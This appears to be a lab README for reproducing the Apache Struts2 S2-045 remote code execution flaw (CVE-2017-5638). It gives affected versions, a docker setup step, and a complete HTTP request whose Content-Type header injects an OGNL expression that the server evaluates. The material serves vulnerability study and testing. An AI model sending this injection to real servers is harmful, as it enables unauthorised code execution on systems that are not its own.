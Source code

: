 S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）
中文版本(Chinese version)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References:

http://struts.apache.org/docs/s2-045.html
https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/
Setup
Execute the following command to start the Struts2 2.3.30：

docker compose up -d
After the container is running, visit http://your-ip:8080 that you can see an example of the upload page.

Exploitation
Verify the vulnerability by following request:

POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


233*233 has been successfully executed:

